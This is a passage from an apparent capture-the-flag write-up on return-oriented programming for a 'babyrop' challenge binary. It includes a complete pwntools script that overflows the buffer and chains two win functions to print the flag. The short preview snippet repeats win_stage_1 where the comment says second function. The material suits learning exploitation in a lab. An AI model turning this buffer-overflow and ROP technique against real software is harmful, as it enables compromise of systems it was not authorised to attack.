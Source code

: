 ROP takes advantage of this by replacing the return address with the address of a gadget (or function), causing execution to jump there when the function returns.

Since the binary is likely compiled without stack canaries, PIE, or other protections, we can stack multiple return addresses and chain function calls.

**Basic ROP Chain Structure**

```txt
payload  = b"A" * 88          # Overflow buffer to reach saved RIP
payload += p64(win_stage_1)   # Address of first function
payload += p64(win_stage_1)   # Address of second function
```

Each `ret` will pop the next value from the stack into `RIP`, effectively "returning" into the next function.

Here’s the full exploit script using **pwntools**:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or '/challenge/babyrop_level2.0')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

offset = 88

io = start()

payload = b'A'*offset	# Overflow buffer to reach saved RIP
payload += pack(exe.sym['win_stage_1']) # Address of first function
payload += pack(exe.sym['win_stage_2']) # Address of second function

io.recvuntil(b'address).\n')
io.sendline(payload)
flag = io.recvall()
log.success(f"{flag.decode()}")

#io.interactive()
io.close()
```
